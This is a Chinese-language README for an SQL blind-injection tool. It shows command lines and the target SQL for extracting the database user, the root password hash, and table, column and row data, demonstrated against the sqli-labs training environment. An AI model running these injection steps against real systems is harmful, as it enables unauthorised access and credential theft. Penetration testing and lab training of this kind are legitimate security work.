


# IIet(Injection-information-extraction-tool)
盲注信息提取工具

## 0x01摘要

这是一个通过整数型注入获取数据库信息的脚本(支持盲注)，支持get/post请求方式，可以携带cookie/身份信息，适用于url/data/cookie注入，它可以获取user()，database()，root密码的hash值，以及当前数据库中的表信息，可以bypass魔术引号的过滤(addslashes)。

## 0x02参数


## 0x03使用方式(举例[sqllabs](https://github.com/Audi-1/sqli-labs))

发现了一个整数型注入点


收集信息：

漏洞URL为http://192.168.128.130/Less-2
请求方式是`get`，注入点位置在`url`中，参数名为`id`，然后找返回包的不同点，我在这里举例为`id=2`以及`id=1`的返回包信息，相对于`id=2`的返回包，`id=1`的返回包回显了`Dumb`这个字符串。

依据脚本提示输入参数就可以获取数据库信息了

执行结果如下

```sql
select user();
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m user -t numeric
```

请求`url`：`http://sqllabs.com/Less-2 `，注入点在`url`中，注入点参数为`id`，`id`值为2，特征字符串为`Dumb`(相比于`id=2`，`id=1`的返回包回显了`Dumb`字符串数据)，获取`user`数据，`http://sqllabs.com/Less-2`源码中存在`numeric数据`，通过`-t`测试请求


```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m user -t numeric -U ming -P 127.0.0.1:8080 -H "token=2&jwt=9" -C phpsession=1;username=admin 
```

自定义`User-Agent`为`ming`，添加代理参数，请求数据代理流转到`127.0.0.1:8080`，添加请求头`token:2`以及`jwt:9`，添加`Cookie`，`phpsession=1`以及`username=admin`


```sql
select authentication_string from mysql.user where user='root';
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m password -t numeric
```

提取`root`用户的`密码`


```sql
select database();
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m database -t numeric
```


```sql
SELECT table_name FROM information_schema.tables WHERE table_schema = database()
```

```
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m table -t numeric
```


```sql
select column_name FROM information_schema.columns WHERE table_name = (select table_name FROM information_schema.tables WHERE table_schema = database() limit 0,1)
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -S 1 -m column -t numeric
```

`-S 1`代表当前数据库第一个表`emails`  `-m column`获取列



```sql
select id,email_id from emails
```

```shell
python iiet.py -u http://sqllabs.com/Less-2 -i url -pn id -pv 2 -c Dumb -m data -T emails -l "id email_id" -t numeric
```


## 更新日志

### 版本更新(2024/10/8)

修复数据库表中文字符乱码的问题



### 版本更新(2024/9/10)

使用二分法提取数据，减少访问次数，修复bug(表中的数据行数)


### 版本更新(2024/9/9)

`argparse`传参，增添代理功能，自定义`Headers`，自定义`User-Agent`

## 免责声明

本工具仅用于合法的授权安全测试和教育目的。未经授权访问或测试未授权的系统是非法的，会产生法律责任。 

本工具的作者概不负责任何非法或未经授权使用此工具所产生的后果。使用者承担使用本工具的全部责任。 
